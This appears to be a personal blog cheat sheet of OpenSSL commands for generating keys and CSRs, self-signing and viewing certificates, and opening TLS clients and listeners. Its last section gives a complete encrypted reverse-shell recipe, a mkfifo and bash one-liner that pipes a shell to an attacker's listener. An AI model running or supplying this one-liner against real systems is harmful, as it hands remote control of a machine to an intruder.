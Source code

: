 ```yaml
---
layout: post
title: Openssl
date: 2021-01-27 16:24 -0400
categories: [Cheat Sheet]
tags: [openssl, tls, ssl, cheat sheet]
---
```


OpenSSL is one of those applications that I use so often, but *rarely* do I ever recall what I'm supposed to do from memory. I'm always looking it up or eventually copying down some of the more frequent uses I have with it in my OneNote document. So here it is on my site, some quick one-off commands with OpenSSL.

## Generate a Server Key

To generate a server key (used in AES/RSA), use the following commands, and keep this key secure!

```bash
openssl genrsa -out mykey.key 2048
```

I've heard that while a 4096-bit key is significantly more secure, it is also more CPU intensive to decrypt, so while dealing with TLS certificates the general consensus is to use 2048 since it is "good enough" to the point where computational power these days can't feasibly brute force the key in a reasonable amount of time, and it doesn't slow down the connection time for the client like 4096-bits would. But still, YMMV.

Now keep it secure:

```bash
chmod 600 mykey.key
```

## Generate a Certificate Sign Request

To get an official certificate, you need to generate a CSR which is to be signed by the trusted third party. Usually you pay a company to do this. You can do it yourself, but you're basically telling everyone that you're super trustworthy and no one should ever doubt you. And come on, you remember that time in Tijuana, don't you? We do.

```bash
openssl req -new -key mykey.key -out mycert.csr
```

You'll then be prompted for a bunch of metadata about the certificate. Make sure you don't put anything too damning in the file and you'll be alright. You should also use a challenge password as well I guess, but that's up to you.

## Self-signing a CSR without a pre-existing key

You should never do this in any sort of production environment. It trains users to accept fraudulent certificates generated by just about anybody, but sometimes you need to have some sort of cert there so *at least data isn't transmitted in the clear*, so here's how to sign a CSR. **NOTE**: This creates the key AND the signed certificate.

```bash
openssl req -newkey rsa:2048 -nodes -keyout mydomain.key -x509 -days 365 -out mydomain.crt
```
This will prompt you for all the metadata about the certificate as mentioned in generating a CSR.

## Self-signing a CSR WITH a pre-existing key

To do the above with a key that you've already generated, use the following command:

```bash
openssl req -key mykey.key -new -x509 -days 365 -out mycert.crt
```

## Sign a Certificate Sign Request with a global CA key

If you have the global CA key and want to legitimately sign a CSR, you can use this command:

```bash
openssl x509 -req -in mycert.csr -CA ca.cert.pem -CAkey ca.key.pem -CAcreateserial -out mycert.crt -days 365 -sha512
```

## View the metadata of a Certificate or CSR

You can view the metadata of a certificate or CSR (such as the expiration date of the certificate or anything else about it) with the following:

```bash
openssl x509 -in mycert.crt -noout -text
```

## Create a CSR with Subject Altnernate Names

This requires a little more work, and hopefully there's a better one-liner way to do it, but until I found that out, the first thing you should do is create a file called `san.cnf`:

```ini
[req]
distinguished_name = req_distinguished_name
req_extensions = v3_req
prompt = no
[req_distinguished_name]
C = US
ST = California
L = Sacremento
O = Widgets, Inc
OU = Accounting
CN = widgets.example.com
[v3_req]
keyUsage = keyEncipherment, dataEncipherment
extendedKeyUsage = serverAuth
subjectAltName = @alt_names
[alt_names]
DNS.1 = morewidgets.example.com
DNS.2 = evenmorewidgets.example.com
DNS.3 = toomanywidgets.example.com
```

Obviously fill out the above with more appropriate data to your needs, then run the following to generate both the private key and the CSR file:

```bash
openssl req -out widgets.csr -newkey rsa:2048 -nodes -keyout private.key -config san.cnf
```

Don't forget to `chmod 600 private.key` afterwards!

---

## Connect to TLS-encrypted Service

Is a service listening on some port that's encrypted but you want to send raw data to it? You can use OpenSSL's client application to connect to it as you would using netcat or telnet, only it handles the encryption overhead so you can communicate with the server on a raw level!

```bash
openssl s_client -connect <RHOST>:<RPORT>
```

Upon connecting, you should see the TLS overhead of the handshake stuff until ultimately the connection is finally made. You can suppress that with the `-quiet` flag.

## Create TLS-encrypted listener

Similarly, you can start a listener that is encrypted using openssl as well:

```bash
openssl s_server -key mykey.key -cert mycert.crt -port 9090
```
You can add the `-quiet` flag here as well.

## OpenSSL-based reverse shell

For the crafty hacker, you can encrypt the shell across the wire using openssl as well.

1. First, generate the key on your local box:
```bash
openssl req -x509 -newkey rsa:4096 -keyout key.pem -out cert.pem -days 365 -nodes
# hit enter for default until key is generated
```

2. Then, start the listener:
```bash
openssl s_server -quiet -key key.pem -cert cert.pem -port 9090
```

3. Now on the remote server, execute the following:
```bash
mkfifo /tmp/a; /bin/bash -I 2>&1 </tmp/a | openssl s_client -quiet -connect <LHOST>:9090 >/tmp/a;rm /tmp/a
```

OpenSSL is really handy to know!